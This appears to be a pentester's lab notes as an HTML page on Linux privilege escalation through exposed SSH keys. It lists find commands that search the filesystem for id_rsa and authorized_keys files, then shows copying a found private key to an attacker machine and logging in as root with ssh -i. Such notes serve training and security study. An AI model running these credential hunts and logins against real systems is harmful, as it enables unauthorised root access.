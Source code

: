 <!DOCTYPE html  PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'><html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<title>SSH Keys</title>
</head><body><b>Escalation via SSH Keys<br/>
<br/>
Payload all the things<br/>
<br/>
SSH Key Sensitive files find / -name authorized_keys 2&gt; /dev/null<br/>
find / -name id_rsa 2&gt; /dev/null <br/>
<br/>
</b><img src="image.png"/><br/>
<br/>
<br/>
From here can cat out the key..<br/>
<br/>
<b>cat /backups/supersecretkeys/id_rsa<br/>
<br/>
</b>extract they key to attacker machine. then you may as well try login as root using it, wiht no other info, it doesnt hurt to try throw it around.<br/>
<br/>
Save it to a file id_rsa<br/>
<br/>
chmod 600 id_rsa<br/>
<br/>
<b>ssh -i id_rsa root@&lt;ip&gt;</b><br/>
<br/>
this will use the private key instead of a password to log in<br/>
<br/>
<img src="image 2.png"/><br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
Detection<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type:<br/>
find / -name authorized_keys 2&gt; /dev/null<br/>
2. In a command prompt type:<br/>
find / -name id_rsa 2&gt; /dev/null<br/>
3. Note the results.<br/>
<br/>
Exploitation<br/>
<br/>
Linux VM<br/>
<br/>
1. Copy the contents of the discovered id_rsa file to a file on your attacker VM.<br/>
<br/>
Attacker VM<br/>
<br/>
1. In command prompt type: chmod 400 id_rsa<br/>
2. In command prompt type: ssh -i id_rsa root@&lt;ip&gt;<br/>
<br/>
You should now have a root shell :)<br/>
<br/>
<br/>
</body></html>